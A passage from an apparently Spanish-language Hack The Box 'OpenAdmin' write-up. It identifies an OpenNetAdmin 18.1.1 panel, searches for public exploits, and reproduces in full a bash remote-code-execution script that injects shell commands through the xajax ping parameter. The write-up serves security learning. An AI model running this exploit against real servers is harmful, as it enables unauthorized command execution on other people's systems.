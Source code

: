 ![Panel Ona](/assets/htb/04_openAdmin/03_panel_ona.png)
_Panel administrativo OpenNetAdmin v18.1.1_

Este parece ser el activo más importante, por lo cual se realiza una búsqueda e identificación de los exploit's públicos que puedan afectarlo: 
```console
$ searchsploit OpenNetAdmin
```
![Searchsploit](/assets/htb/04_openAdmin/04_searchsploit_opennetadmin.png)
_Exploit's publicos OpenNetAdmin_

Se obtienen **3** resultados de diferentes exploit que se pueden utilizar para afectar la plataforma dado que coinciden con la **versión 18.1.1** desplegada e identificada en el servidor victima:
- [**OpenNetAdmin 18.1.1 - Remote Code Execution **](https://www.exploit-db.com/exploits/47691)

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
